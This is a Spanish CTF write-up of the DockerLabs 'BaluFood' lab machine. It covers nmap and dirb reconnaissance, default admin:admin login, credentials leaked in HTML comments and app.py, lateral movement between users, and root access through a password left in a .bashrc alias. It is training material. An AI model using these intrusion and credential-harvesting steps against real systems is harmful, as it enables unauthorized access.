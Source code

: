 ```yaml
---
title: BaluFood
description: Página web de un restaurante con data leakage y escalada de privilegios en linux con user pivoting.
date: 2025-04-29
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-balufood/balufood_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - ssh
  - upnp
  - data_leaks
  - misconfigurations
  - information_gathering
  - web_analysis
  - data_leak_exploitation
  - lateral_movement
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.089 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.089/0.089/0.089/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -n -Pn -oG nmap1
Host: 172.17.0.2 ()     Status: Up
Host: 172.17.0.2 ()     Ports: 22/open/tcp//ssh///, 5000/open/tcp//upnp///      Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ sudo nmap -sCV -p22,5000 -vvv 172.17.0.2 -oN nmap2
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:15:7d:34:74:1c:21:8a:cb:2c:a2:8c:42:a4:21:7f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD/+EOmj2PkB3JiPRNvx8CBhMsLP+MZtPK9LPbNWEGIA7AlkNX0go0NBQ5Ad0e7UCOnXW9knwgnOomFJDsLo/1o=
|   256 a7:3a:c9:b2:ac:cf:44:77:a7:9c:ab:89:98:c7:88:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL/Vvyg3NC9pIeabLUubEq3XuRQVxIIzh2sSxVeJjM57
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Restaurante Balulero - Inicio
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ whatweb 172.17.0.2:5000
http://172.17.0.2:5000 [200 OK] Bootstrap, Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[172.17.0.2], Python[3.11.2], Script, Title[Restaurante Balulero - Inicio], Werkzeug[2.2.2]
```

---
## Web Analysis & Data Leak Exploitation

El servicio web inicial presenta una interfaz simple con funcionalidades básicas visibles.

![](assets/img/dockerlabs-writeup-balufood/balufood1_1.png)

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ dirb http://172.17.0.2:5000/
---- Scanning URL: http://172.17.0.2:5000/ ----
+ http://172.17.0.2:5000/admin (CODE:302|SIZE:199)
+ http://172.17.0.2:5000/console (CODE:400|SIZE:167)
+ http://172.17.0.2:5000/login (CODE:200|SIZE:1850)
+ http://172.17.0.2:5000/logout (CODE:302|SIZE:189)
```

Pruebo autenticarme en `/login` con credenciales comunes y el par `admin`:`admin` permite acceder exitosamente al panel `/admin`.

![](assets/img/dockerlabs-writeup-balufood/balufood1_2.png)
![](assets/img/dockerlabs-writeup-balufood/balufood1_3.png)

Analizando el código fuente del panel `/admin`, identifico credenciales comentadas, `sysadmin`:`backup123`.

![](assets/img/dockerlabs-writeup-balufood/balufood1_4.png)

Estas credenciales permiten acceso por ssh como el usuario `sysadmin`.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ ssh sysadmin@172.17.0.2 
sysadmin@172.17.0.2's password: backup123
```

```terminal
sysadmin@6fa083db4c91:~$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),100(users)
```

---
## Lateral Movement

```terminal
sysadmin@6fa083db4c91:~$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:sysadmin,sysadmin,,:/home/sysadmin:/bin/bash
balulero:x:1001:1001:balulero,,,:/home/balulero:/bin/bash
```

En el directorio `/home/sysadmin` se encuentra un archivo llamado `app.py`, que contiene una cadena que podría tratarse de una contraseña.

```terminal
sysadmin@6fa083db4c91:~$ head app.py
```

![](assets/img/dockerlabs-writeup-balufood/balufood1_5.png)

La cadena se utiliza como contraseña del usuario `balulero` y permite autenticarse exitosamente.

```terminal
sysadmin@6fa083db4c91:~$ su balulero
Password: cuidaditocuidadin
```
```terminal
balulero@6fa083db4c91:/home$ id
uid=1001(balulero) gid=1001(balulero) groups=1001(balulero),100(users)
```

---
## Privilege Escalation

Dentro del archivo `.bashrc` del usuario `balulero`, aparece definido un alias que permite ejecutar `su - root` utilizando una contraseña.

```terminal
balulero@6fa083db4c91:~$ tail -n1 .bashrc
alias ser-root='echo chocolate2 | su - root'
```

La cadena `chocolate2` corresponde a la contraseña del usuario `root`. De esta forma, la utilizo directamente para obtener una shell privilegiada.

```terminal
balulero@6fa083db4c91:~$ su root
Password: chocolate2

root@6fa083db4c91:/home/balulero# id
uid=0(root) gid=0(root) groups=0(root)
```